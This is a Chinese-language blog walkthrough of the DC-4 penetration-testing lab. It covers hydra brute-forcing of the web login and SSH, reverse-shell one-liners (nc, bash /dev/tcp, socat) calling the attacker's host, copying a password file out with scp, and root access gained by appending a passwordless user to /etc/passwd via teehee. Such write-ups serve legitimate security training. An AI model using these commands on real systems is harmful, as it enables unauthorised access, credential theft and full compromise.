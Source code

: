 ```yaml
---
layout: post
title: DC-4
subtitle: DC-4
date: 2025-07-10 10:32
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 信息搜集

扫描网段发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/Mpx57R.png)

nmap扫描端口，发现http和ssh端口

![image.png](https://img.ghostliner.top/tisEXh.png)

访问网站尝试登录失败，目录扫描无重要内容，尝试爆破
### 渗透测试

#### 登录密码爆破

bp抓包查看数据格式，可用bp爆破或 `hydra` 爆破

![image.png](https://img.ghostliner.top/xWvdSB.png)

使用 `hydra` 爆破

```shell
hydra 192.168.163.135 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image.png](https://img.ghostliner.top/g5jGyg.png)

获取到密码：happy，登录发现命令执行页面，抓包测试发现存在漏洞

![image.png](https://img.ghostliner.top/qvPHb3.png)

![image.png](https://img.ghostliner.top/Xv5uzD.png)
#### 反弹shell

上传反弹shell命令

```shell
nc -nv 192.168.163.135 -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 > /tmp/f
bash -i >& /dev/tcp/192.168.163.132/4444 0>&1
ncat -nv 192.168.163.132 4444 -e /bin/bash
socat TCP:192.168.163.132:4444 EXEC:/bin/bash
```

连接成功

![image.png](https://img.ghostliner.top/6oyW71.png)

查看home目录，发现jim用户下 `old-passwords.bak`文件

![image.png](https://img.ghostliner.top/uSkXiV.png)

直接复制或使用scp传给kali，kali需要开启SSH服务，允许密码登录

```shell
scp -P 2233 old-passwords.bak kali@192.168.163.132:~
# -P 2233 指定SSH端口2233
# :~ 将文件放到目标机用户家目录
```
#### SSH爆破

使用 `hydra` 爆破SSH

```shell
hydra 192.168.163.135 -l jim -P old-passwords.bak ssh
```

![image.png](https://img.ghostliner.top/g6A9al.png)

密码：jibril04，`su jim`切换用户成功，查看mbox文件发现是邮件，查找是否有其他邮件

![image.png](https://img.ghostliner.top/71gQ68.png)

在 `/var/mail` 目录下发现邮件，其中有charles发送给jim的密码邮件

用户名：`charles` <mark>注意是小写</mark> 
密码：  `^xHhA&hvim0y`

![image.png](https://img.ghostliner.top/g8ZxjX.png)

`su charles` 切换用户成功后，查看用户目录下无内容，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/NMUSqW.png)
#### 提权

teehee提权
```shell
echo "shell::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su shell
```

![image.png](https://img.ghostliner.top/2Ha8ej.png)
